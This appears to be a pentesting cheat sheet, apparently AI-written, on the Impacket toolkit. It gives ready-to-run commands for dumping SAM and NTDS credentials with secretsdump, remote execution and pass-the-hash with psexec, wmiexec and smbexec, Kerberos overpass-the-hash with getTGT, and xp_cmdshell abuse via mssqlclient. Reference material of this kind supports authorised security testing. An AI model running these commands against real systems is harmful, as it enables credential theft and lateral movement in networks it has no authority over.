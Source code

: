 Related articles: 
Tags: #Tools 

---

Let me create a comprehensive guide for Impacket's tools and their practical usage, similar to what you have for CrackMapExec.

Impacket is a collection of Python classes for working with network protocols. Here are its most important tools and how to use them:

secretsdump.py - The Swiss Army Knife for Credential Extraction

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

```bash
# Dump credentials remotely using admin rights
secretsdump.py domain/administrator:password@10.10.10.10

# Dump NTDS.dit remotely (Domain Controller)
secretsdump.py -just-dc domain/administrator:password@10.10.10.10

# Extract from local files (after getting NTDS.dit and SYSTEM hive)
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL
```

What's happening: secretsdump.py can extract credentials in multiple ways. When used remotely, it connects to the target and uses various techniques to access credential stores. For domain controllers, it can extract the NTDS.dit database, which contains all domain password hashes.

psexec.py - Remote Command Execution Through Service Creation
```bash
# Basic authentication and command execution
psexec.py administrator:password@10.10.10.10

# Using pass-the-hash
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 administrator@10.10.10.10

# Execute specific command
psexec.py administrator:password@10.10.10.10 cmd.exe /c whoami
```

What's happening: psexec.py creates a service on the remote system, similar to the SMBExec technique we discussed earlier. The service runs commands with SYSTEM privileges, making it very powerful for administrative tasks.

wmiexec.py - Fileless Command Execution Using WMI
```bash
# Basic WMI execution
wmiexec.py administrator:password@10.10.10.10

# Pass-the-hash with WMI
wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 administrator@10.10.10.10

# Execute specific command through WMI
wmiexec.py administrator:password@10.10.10.10 "whoami"
```
What's happening: wmiexec.py uses Windows Management Instrumentation for command execution. It's more stealthy than psexec.py because it doesn't create a service, instead using WMI's built-in capabilities.

smbexec.py - Alternative Service-Based Execution
```bash
# Basic SMB execution
smbexec.py administrator:password@10.10.10.10

# Pass-the-hash with SMB
smbexec.py -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 administrator@10.10.10.10
```
What's happening: Similar to psexec.py but implements the technique differently. It creates a service for command execution but handles output differently, making it useful in situations where psexec.py might fail.

getTGT.py - Kerberos Ticket Operations
```bash
# Get a TGT with password
getTGT.py domain.local/administrator:password

# Get a TGT with hash (overpass-the-hash)
getTGT.py -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 domain.local/administrator

# Save and use the ticket
export KRB5CCNAME=administrator.ccache
```
What's happening: getTGT.py interacts with the Key Distribution Center to obtain Kerberos tickets. These tickets can then be used for authentication with other Impacket tools.

mssqlclient.py - SQL Server Interaction
```bash
# Connect to SQL Server
mssqlclient.py administrator:password@10.10.10.10

# Enable xp_cmdshell and execute commands
SQL> enable_xp_cmdshell
SQL> xp_cmdshell whoami
```
What's happening: This tool provides an SQL client that can interact with Microsoft SQL Server. It's particularly useful because SQL Server can often be leveraged for command execution through xp_cmdshell.